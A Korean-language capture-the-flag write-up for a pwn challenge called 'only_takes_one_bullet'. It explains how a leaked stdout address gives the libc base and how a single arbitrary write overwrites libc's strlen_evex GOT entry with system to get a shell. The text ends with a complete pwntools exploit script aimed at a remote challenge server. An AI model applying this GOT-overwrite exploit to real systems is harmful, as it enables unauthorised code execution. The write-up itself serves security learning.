

# 문제이름
only_takes_one_bullet
# Usage
- 공란

# Concept
- 문제 컨셉 BOF, UAF, SSRF, XSS, 행렬 리버싱 등
got overwirte

# Writeup
코드를 보면 libc base를 계산할 수 있도록 stdout 주소를 출력해주고 AAW primitive를 한번 트리거할 수 있을거처럼 보인다 이 점을 이용해 libc 파일의 GOT 주소를 구하고 이를 AAW primitive를 이용하여 변조할 수 있다
또한 마지막에 puts 함수가 사용자가 입력한 9바이트의 입력값을 첫번째 인자로 하여 출력 하므로 puts 함수의 내부 함수의 GOT를 system으로 변조하면 사용자의 입력을 실행시킬수있을것이다

Istrlen_evex 함수의 GOT가 사용자의 입력을 첫번째 인자로 하여 puts 함수 내부에서 호출되는 것을 볼 수 있다
그러므로 strlen_evex GOT를 system 함수 주소로 
사용자 입력을 /bin/sh로 하여 puts 함수를 호출하면 쉘을 실행시키는 문제이다
익스코드를 짜보자
```python
from pwn import *

p = remote("finder16.kr", 8888)
e = ELF("./prob")
libc = e.libc
context.terminal = ['tmux', 'split', '-h']
context.log_level = 'debug'


p.recvuntil(b"addr : ")
lb = int(p.recvline()[:-1], 16) - libc.sym["_IO_2_1_stdout_"]
libc_got = lb + 0x21a098
system = lb + libc.sym["system"]
p.recvuntil(b"bullet\r\n")
p.sendline(hex(system)[2:])
p.recvuntil(b"target\r\n")
p.sendline(hex(libc_got))

p.interactive()

```